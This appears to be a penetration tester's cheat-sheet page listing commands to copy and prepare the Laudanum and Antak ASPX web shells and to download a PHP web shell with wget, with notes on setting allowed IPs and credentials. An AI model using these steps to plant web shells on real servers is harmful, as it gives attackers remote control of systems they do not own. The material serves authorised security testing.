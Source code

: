 ## Laudanum
[Laudanum Repo](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)

`/usr/share/laudanum`

### Copy file to modify

```
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```

> Add your IP address to the allowedIps variable on line 59

## Antak

`/usr/share/nishang/Antak-WebShell`

```
ls /usr/share/nishang/Antak-WebShell
```

```
cp /usr/share/nishang/Antak-WebShell/antak.aspx ~/Upload.aspx
```

> Modify line 14, adding a user and password. 

## PHP

[WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

```
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -O wwwphpshell.php
```

